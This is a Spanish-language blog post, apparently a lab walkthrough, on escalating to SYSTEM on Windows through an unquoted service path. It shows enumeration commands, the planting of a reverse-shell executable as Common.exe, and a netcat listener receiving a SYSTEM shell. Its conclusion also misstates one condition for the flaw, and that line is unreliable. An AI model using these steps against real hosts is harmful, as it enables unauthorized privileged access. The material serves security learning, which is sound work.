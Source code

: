 ```yaml
---
layout: post
title: Unquote Service Path
subtitle: "Unquote Service Path"
tags: [Windows,PrivEsc]
---
```


Cuando se crea un archivo cuya ruta ejecutable contiene espacios y no está entre **comillas**, conduce a una vulnerabilidad conocida como "uta de servicio no cotizada" que permite a un usuario obtener privilegios de `systema` (sólo si el servicio se ejecuta con el nivel de privilegio de sistema)

> **findstr**: Buscar cadenas en los archivos

| argumento | desccripción |
|--|--|
| /i | no distinguir mayuscula de minuscula |
| /v | imprime lineas que no contengan una correspondencia |

```
wmic service get name,displayname,pathname,startmode | findstr /i "Manual" | findstr /i /v "C:\Windows\\" |findstr /i /v """
Unquoted Path Service                                                               unquotedsvc                               C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe        Manual 
winexesvc                                                                           winexesvc                                 winexesvc.exe                                                                      Manual 
```

Consulte el servicio " unquotedsvc"  y observe que se ejecuta con privilegios del SISTEMA `(SERVICE_START_NAME)` y que `BINARY_PATH_NAME` no está entre comillas y contiene espacios.

> **sc**: usado para comunicarse con el administrador de control de servicios y con los servicios.

**qc**: consulta la información de configuración de un servicio.

```
sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Con accesschk.exe, tenga en cuenta que el grupo `BUILTIN\Users` puede escribir en el directorio `C:\Program Files\Unquoted Path Service\`:

```
C:\>C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

icacls

```
icacls "C:\Program Files\Unquoted Path Service"
C:\Program Files\Unquoted Path Service BUILTIN\Users:(F)
                                       NT SERVICE\TrustedInstaller:(I)(F)
                                       NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                       NT AUTHORITY\SYSTEM:(I)(F)
                                       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                       BUILTIN\Administrators:(I)(F)
                                       BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                       BUILTIN\Users:(I)(RX)
                                       BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                       CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                       APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                       APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                       APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                       APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

Copie el  ejecutable reverse.exe que creó en este directorio y cámbiele el nombre Common.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios de SISTEMA:

```
> net start unquotedsvc

_____________________________________________________________

❯ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.10.102] 49766
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
nt authority\system

```

### Salida  de PowerUp

```
[...]
[*] Checking for unquoted service paths...
                                                                                             
ServiceName   : AWSLiteAgent                                                                 
Path          : C:\Program Files\Amazon\XenTools\LiteAgent.exe   
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AWSLiteAgent' -Path <HijackPath>           

ServiceName   : unquotedsvc
Path          : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe  
StartName     : LocalSystem                                                                  
AbuseFunction : Write-ServiceBinary -ServiceName 'unquotedsvc' -Path <HijackPath>            
[...]
```

### Conclusión

Para abusar de esta vulnerabilidad seben cumplir las siguientes condiciones:

- La ruta del ejecutable del servicio no debe estar entre comillas ni tener espacios.

- Debe de ejecutarse con privilegios de `LocalSystem`.

- Los usuarios deben tener acceso de escritura en una de las carpetas conde reside la ruta binaria.

- Los usuarios deben tener derecho de reiniciar el servicio. Si no es así , debe ser un servicio de inicio automatico.

